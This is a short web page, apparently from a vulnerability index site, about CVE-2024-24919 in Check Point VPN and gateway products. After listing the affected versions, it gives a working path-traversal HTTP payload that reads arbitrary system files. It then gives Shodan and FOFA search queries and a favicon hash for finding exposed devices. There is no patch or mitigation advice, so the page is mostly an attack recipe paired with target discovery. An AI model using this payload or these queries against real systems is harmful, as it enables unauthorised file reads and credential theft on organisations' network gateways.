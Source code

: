 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<meta name="description" content="This vulnerability, when taken advantage of, grants the attacker read access to system files.">
<meta property="og:title" content="CVE-2024-24919">
<meta property="og:type" content="website">
<meta property="og:url" content="https://databased-index.github.io/cpsslne">
<meta property="og:image" content="https://databased-index.github.io/images/cabbit.jpg">
 <meta property="og:description" content="This vulnerability, when taken advantage of, grants the attacker read access to system files.">

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

### Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

### Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
